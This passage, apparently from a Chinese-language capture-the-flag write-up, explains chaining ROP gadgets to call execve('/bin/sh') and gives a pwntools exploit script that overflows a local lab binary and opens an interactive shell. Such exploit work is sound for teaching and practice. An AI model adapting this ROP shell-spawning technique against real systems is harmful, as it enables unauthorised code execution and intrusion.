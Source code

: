    构造ROP chain的目的是将代码片段串成调用`execve()`函数的代码

   ```
   pop rdi;ret
   # 存储地址
   pop rsi;ret
   '/bin/sh\x00'
   mov qword ptr [rdi],rsi;ret
   pop rsi;ret
   0x0
   pop rdx;ret
   0x0
   pop rax;ret
   0x3b
   # syscall;ret
   ```

### Exp

```python
from pwn import *

r = process("./rop")

r.recvuntil("!\n")

pop_rdi = p64(0x40186a)
pop_rsi = p64(0x40f3ae)
mov_rsi = p64(0x445d5f)
pop_rsi = p64(0x40f3ae)
pop_rdx = p64(0x40176f)
pop_rax = p64(0x449297)
syscall = p64(0x4012d3)
bss = p64(0x4c2240)

p = b'a' * 0x18
p += pop_rdi
p += bss
p += pop_rsi
p += b'/bin/sh\x00'
p += mov_rsi
p += pop_rsi
p += p64(0)
p += pop_rdx
p += p64(0)
p += pop_rax
p += p64(0x3b)
p += syscall

r.send(p)

r.interactive()
```


[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*